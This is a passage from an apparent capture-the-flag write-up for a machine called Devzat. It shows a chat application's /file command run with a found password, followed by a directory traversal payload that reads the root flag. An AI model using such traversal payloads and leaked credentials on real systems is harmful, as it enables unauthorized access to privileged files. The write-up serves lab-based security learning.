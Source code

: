 Afterwards, we will try to get the file using /file command, but we are unable to obtain the file as we do not have the correct password. So, we will supply the password string to the command, but it seems that /root/devzat/root.txt does not exist

```
test3: /file root.txt CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root.txt does not exist!
```
### Obtaining root flag

With that we will use directory traversal to obtain the root flag instead.

```
test3: /file ../../../../root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] <Redacted root flag>
```
